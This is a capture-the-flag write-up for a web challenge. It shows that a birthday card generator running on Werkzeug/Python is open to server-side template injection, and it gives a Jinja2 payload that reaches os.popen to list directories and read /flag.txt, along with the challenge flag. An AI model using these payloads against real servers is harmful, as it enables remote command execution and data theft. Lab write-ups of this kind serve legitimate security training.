



# Happy Birthday Card Generator Challenge

**Points:** 100  
**Category:** Web  

## Task Overview

Explore the functionality of a web-based Happy Birthday Card Generator and identify potential security vulnerabilities.

### Initial Exploration

1. **Testing Input:**  
   First, I entered "MD" as input to see how the generator works and it gave the following result.  
   
   

### Server Analysis

2. **Server Identification:**  
   Let's try to find out which server it is deployed on.  
   

   As it's Werkzeug/1.0.1 Python/2.7.14, we can try Server-Side Template Injection (SSTI).

### Exploiting Server-Side Template Injection (SSTI)

3. **Initial SSTI Test:**  
   We input `{{5*5}}` and got 25 in the output, confirming that SSTI is successful.  
   

4. **Executing Commands:**  
   Let's try to run "ls" to list files and directories using the following payload:  
   `{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls /").read()}}` [Payload Credits: https://secure-cookie.io/attacks/ssti/#tldr---show-me-the-fun-part]  
   

   We can see that flag.txt exists.

5. **Accessing Flag:**  
   We can get its contents by using the following payload:  
   `{{"foo".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("cat /flag.txt").read()}}`  
   

## Flag

`WHETSTONE{SsT1_is_v3ry_6Ad}`
